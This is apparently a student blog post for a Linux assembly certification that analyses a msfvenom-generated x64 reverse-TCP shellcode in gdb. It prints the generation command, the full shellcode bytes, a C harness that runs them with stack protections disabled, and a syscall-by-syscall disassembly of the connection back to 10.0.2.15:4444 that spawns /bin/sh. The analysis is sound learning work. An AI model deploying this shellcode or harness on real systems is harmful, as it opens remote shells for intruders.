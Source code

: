 ```yaml
---
layout: post
title: Msfvenom generated shell_reverse_tcp payload
#description: >
#  This blog post covers the 5th task of the SLAE certificate exam where the goal is to analyse a msfvenom generated payload
#hide_description: true
#image: /assets/img/blog/example-content-ii.jpg
---
```


This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert Certification](https://www.pentesteracademy.com/course?id=7). The task for 5.3/7 assignment is to analyse at least 3 shellcode examples created using Msfpayload for linux/x86_64. Since msfpayload is outdated, I used msfvenom instead. The analysis of the shellcodes is carried out using the gdb debugger and 3/3 shellcode analysed in this article is the shell_reverse_tcp payload.

<b>Student ID</b>: SLAE64 - 1594

### MSFvenom generated linux/x64/shell_reverse_tcp payload

As a follow up to analysing [exec shellcode](/blog/2019-05-01-blog-SLAE51) and [bind shellcode](/blog/2019-05-01-blog-SLAE52), I am going to be analysing the linux/x64/shell_reverse_tcp as final payload for task number 5. This payload is used to make the connection back to the attackers machine and spawn a command shell. In order to generate the payload I used the following command:
```
msfvenom -p linux/x64/shell_reverse_tcp -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 335 bytes
unsigned char buf[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x0a\x00\x02\x0f\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```

#### Shellcode test program

In order to analyse the generated payload I am placing it into the C program which will be executing the shellcode:
```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x0a\x00\x02\x0f\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

int main()
{
  printf("Shellcode Length:  %d\n", (int)strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

and finally compile the C program as follows:
```
gcc -m64 -fno-stack-protector -z execstack testshellcode.c -o testshellcode -no-pie
```

### Analysis

I will be taking the same type of approach in the analysis of this payload as in the previous one for bind shellcode. There are 4 syscalls being executed so let's go through them one by one. The concept of a reverse shellcode is that there is an attacker controlled machine somewhere where the attacker is waiting a connection back on a specific port and it is shellcode's job to make initiate that connection.

For that to happen this generated payload makes use of a chain of syscalls --> it first creates a new `socket()`, then attempts to `connect()` to the attacker controlled machine and once it does, it launches the `execve()` syscall.

![](/assets/img/SLAE/msfvenom_syscall2.png)

__1__ - `socket()`

* syscall number, 0x29 is placed to `rax` right in the beginning with 2 instructions `push 0x29` and `pop rax`
* cdq is then used to sign-extend the value in `rax`, which means it would zero out `rdx` which is pretty convenient
* with next push'es and pop's 0x2 and 0x1 are placed to `rdi` and `rsi` respectively, so we could finally launch the `socket()` syscall

```
   0x0000000000601060 <code+0>:  push   0x29
   0x0000000000601062 <code+2>:  pop    rax
   0x0000000000601063 <code+3>:  cdq
   0x0000000000601064 <code+4>:  push   0x2
   0x0000000000601066 <code+6>:  pop    rdi
   0x0000000000601067 <code+7>:  push   0x1
   0x0000000000601069 <code+9>:  pop    rsi
   0x000000000060106a <code+10>: syscall
```

__2__ - `connect()`

To make a connection back to the attacker controlled machine, shellcode needs to contain important information like ip and port, in our case this is all displayed to us at offset +14 where hexadecimal value is moved to rcx. What that hexadecimal value `0xf02000a5c110002` actually represents can be teared up to following bits:

* 0002 - AF_INET, ipv4 address families
* 5c11 - in little endian 115c converted to decimal gives us the port number 4444
* 0x0a00020f is the hexadecimal format of an IP address 10.0.2.15

As `connect()` syscall has 3 arguments `int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);` we need to prepare the corresponding registers `rdi`, `rsi` and `rdx`. By pushing `rcx` to the stack and then moving it to `rsi` we prepare the 2nd argument. The following `push 0x10` which we then immediately pop into `rdx` is the overall size of the `sockaddr *addr` structure, which is 16 bytes. And as usual, you can find the syscall number from `rax`

```
   0x000000000060106c <code+12>: xchg   rdi,rax
   0x000000000060106e <code+14>: movabs rcx,0xf02000a5c110002
   0x0000000000601078 <code+24>: push   rcx
   0x0000000000601079 <code+25>: mov    rsi,rsp
   0x000000000060107c <code+28>: push   0x10
   0x000000000060107e <code+30>: pop    rdx
   0x000000000060107f <code+31>: push   0x2a
   0x0000000000601081 <code+33>: pop    rax
   0x0000000000601082 <code+34>: syscall
```

__3__ - `dup2()`

Next we are duplicating file descriptors and as we have seen in the previous post about bind shell, msfvenon generates this part so that it is done in a loop for duplicating stdin-1, stdout-2 and stdout-3.

```
   0x0000000000601084 <code+36>: push   0x3
   0x0000000000601086 <code+38>: pop    rsi
   0x0000000000601087 <code+39>: dec    rsi
   0x000000000060108a <code+42>: push   0x21
   0x000000000060108c <code+44>: pop    rax
   0x000000000060108d <code+45>: syscall
   0x000000000060108f <code+47>: jne    0x601087 <code+39>

```

__4__ - `execve()`

and finally the reverse shell launches the `execve()` syscall where `0x68732f6e69622f` marks that the program to be launched is `/bin/sh`
```
   0x0000000000601091 <code+49>: push   0x3b
   0x0000000000601093 <code+51>: pop    rax
   0x0000000000601094 <code+52>: cdq
   0x0000000000601095 <code+53>: movabs rbx,0x68732f6e69622f
   0x000000000060109f <code+63>: push   rbx
   0x00000000006010a0 <code+64>: mov    rdi,rsp
   0x00000000006010a3 <code+67>: push   rdx
   0x00000000006010a4 <code+68>: push   rdi
   0x00000000006010a5 <code+69>: mov    rsi,rsp
   0x00000000006010a8 <code+72>: syscall
```

So the whole concept of this shellcode looks pretty much as I have already described in the blog post about [reverse shell](../../blog/2019-01-25-blog-SLAE2/).

![](/assets/img/SLAE/bindreverse.png)
* * *

#### Related posts:

* [64-bit bindshell with a passphrase protection](https://silviavali.github.io/blog/2019-01-15-blog-SLAE1/)
* [64-bit reverse shell with passphrase protection](https://silviavali.github.io/blog/2019-01-25-blog-SLAE2/)
* [Egghunter (64-bit Linux) using access() syscall](https://silviavali.github.io/blog/2019-02-25-blog-SLAE3/)
* [Writing a 64-bit custom encoder (reversed byte order of 4 byte chunks)](https://silviavali.github.io/blog/2019-02-25-blog-SLAE4/)
* [Msfvenom generated Exec shellcode analysis - exec shellcode](https://silviavali.github.io/blog/2019-05-01-blog-SLAE51/)
* [Msfvenom generated bind_tcp shellcode analysis](https://silviavali.github.io/blog/2019-05-01-blog-SLAE52/)
* [Msfvenom generated shell_reverse_tcp payload](https://silviavali.github.io/blog/2019-05-01-blog-SLAE53/)
* [Polymorphic shellcodes for samples taken from Shell-Storm](https://silviavali.github.io/blog/2019-05-01-blog-SLAE6/)
* [Custom encrypter - One-time pad (OTP)](https://silviavali.github.io/blog/2019-05-01-blog-SLAE7/)
